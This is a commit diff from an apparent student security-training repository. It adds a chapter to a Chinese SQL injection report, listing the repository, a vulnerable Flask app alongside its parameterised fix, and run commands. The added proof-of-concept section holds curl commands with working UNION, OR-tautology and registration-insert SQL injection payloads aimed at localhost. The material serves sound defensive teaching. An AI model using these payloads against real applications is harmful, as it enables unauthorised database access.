

Before and after one commit to lulu-xuan/security-training, a Markdown page: day3-report/sql_injection_report.md, the part around the change. Shown at 87% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
docs: add GitHub project info to Day3 report
- 新增第九章「项目信息」含仓库地址、目录结构、运行命令、POC速查
- 方便老师AI直接定位项目和测试

````diff
--- a/day3-report/sql_injection_report.md
+++ b/day3-report/sql_injection_report.md
@@ -734,5 +734,62 @@ Layer 1: 参数化查询 (核心防线)
 
 ---
 
+## 九、项目信息
+
+### 9.1 项目地址
+
+本项目完整代码（漏洞版 + 修复版）及本报告均存放在 GitHub 仓库：
+
+👉 **https://github.com/lulu-xuan/security-training**
+
+### 9.2 目录结构
+
+```
+security-training/
+├── app/ + report/                      # Day2: 用户登录平台11项漏洞修复
+├── day3-app/                           # Day3: SQL注入漏洞版 + 修复版代码
+│   ├── app.py                          # ⚠️ 漏洞版（f-string拼接SQL）
+│   ├── app_fixed.py                    # ✅ 修复版（参数化查询）
+│   ├── data/users.db                   # SQLite数据库
+│   └── templates/                      # 模板文件（漏洞版+修复版）
+├── day3-report/
+│   └── sql_injection_report.md         # 📄 本报告
+└── README.md                           # 项目总导航
+```
+
+### 9.3 快速运行
+
+```bash
+# 克隆项目
+git clone git@github.com:lulu-xuan/security-training.git
+cd security-training
+
+# Day3 漏洞版运行
+cd day3-app && rm -f data/users.db && python3 app.py
+
+# Day3 修复版运行
+cd day3-app && rm -f data/users.db && python3 app_fixed.py
+```
+
+### 9.4 POC 测试速查
+
+```bash
+# 1. 登录获取 session
+curl http://127.0.0.1:5000/login -d "username=admin&password=admin123" -c /tmp/c.txt
+
+# 2. UNION注入 (5列)
+curl "http://127.0.0.1:5000/search?keyword=%27%20UNION%20SELECT%201,%27inj%27,%27inj_pass%27,%27inj@x.com%27,%27138%27--" -b /tmp/c.txt
+
+# 3. OR万能条件
+curl "http://127.0.0.1:5000/search?keyword=%27%20OR%20%271%27%3D%271" -b /tmp/c.txt
+
+# 4. 注册注入
+curl http://127.0.0.1:5000/register -d "username=hack5', 'pass5', 'h5@x.com', '555')--&password=x"
+curl http://127.0.0.1:5000/login -d "username=hack5&password=pass5"
+```
+
+---
+
 *报告生成日期：2026-07-19 | 实训项目：Day3 — SQL注入漏洞分析与修复*
 *平台：用户登录管理平台 | 技术栈：Flask 3.x + SQLite*
+*项目仓库：[github.com/lulu-xuan/security-training](https://github.com/lulu-xuan/security-training)*
````
